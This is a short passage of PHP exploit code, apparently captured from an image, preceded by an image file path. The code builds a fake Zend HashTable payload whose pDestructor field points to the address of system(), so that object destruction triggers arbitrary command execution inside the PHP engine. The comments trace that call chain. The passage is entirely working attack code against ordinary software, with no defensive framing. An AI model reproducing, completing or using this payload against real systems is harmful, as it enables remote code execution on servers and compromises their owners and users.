             # The second pointer points to meth, and is used before reaching the
            # arbitrary function call
            # The third one and the last one are both used by the function call
            # zend_object_std_dtor(object) => ... => system(&arData[0]->val)
            $properties = 
                # refcount
                ptr2str(1) .
                # u-nTableMask meth
                ptr2str($payload_start + strlen($bucket)) .
                # Bucket arData
                ptr2str($payload_start) .
                # uint32_t nNumUsed;
                ptr2str(1, 4) .
                # uint32_t nNumOfElements;
                ptr2str(0, 4) .
                # uint32_t nTableSize
                ptr2str(0, 4) .
                # uint32_t nInternalPointer
                ptr2str(0, 4) .
                # zend_long nNextFreeElement
                $z .
                # dtor_func_t pDestructor
                ptr2str($addresses['system'])
            ;

            $payload =
                $bucket .
                $meth .
                $properties
            ;
